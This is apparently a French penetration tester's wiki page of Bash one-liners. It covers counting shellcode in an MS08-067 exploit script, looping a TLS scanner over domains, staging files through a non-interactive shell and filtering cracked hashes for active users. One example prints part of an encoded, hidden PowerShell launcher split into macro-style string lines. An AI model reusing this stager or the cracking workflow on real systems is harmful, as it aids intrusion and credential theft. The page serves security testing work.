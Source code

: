 ```yaml
---
title: Bash
permalink: /Bash/
---
```


# Bash

## Commandes utiles
### Divers

Les commandes suivantes permettent de compter le nombre de caractères dans un shellcode:

``` bash
cat ms_08_067.py| grep "^shellcode" | awk '{print $3}' | cut -d'"' -f2 | sed ':a;N;$!ba;s/\n//g' | wc -c
```

Divisions en CLI

``` bash
v=$(cat tmp | cut -d'"' -f2 | tr -d '\n' | wc -c);echo $((v/4))
```

Faire tourner un outil en boucle sur chaque ligne d'un fichier
```
while read dom; do /opt/testssl.sh/testssl.sh --csv $dom ; done < domains.txt
```

### Sed Magic

Les commandes suivantes générent les commandes à taper pour copier/coller un fichier dans un shell non interactif:

``` bash
cat test | sed -e 's/^/echo /g' | sed -e 's/$/>> file.txt/g'
```

Découper une longue entrée sur plusieurs lignes:
``` bash
cat test | sed 's/.\{70\}/Str = Str + "&"\n/g'
Str = Str + "%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -e aQBmACg"
Str = Str + "AWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnA"
[...]
```

### Grep

La commande suivante permet de récupérer les lignes dans cracked.txt qui contiennent un élément de enabled.txt (ex: récupérer les hashs des utilisateurs s'ils sont actifs)

``` bash
fgrep -f enabled.txt cracked.txt 
```
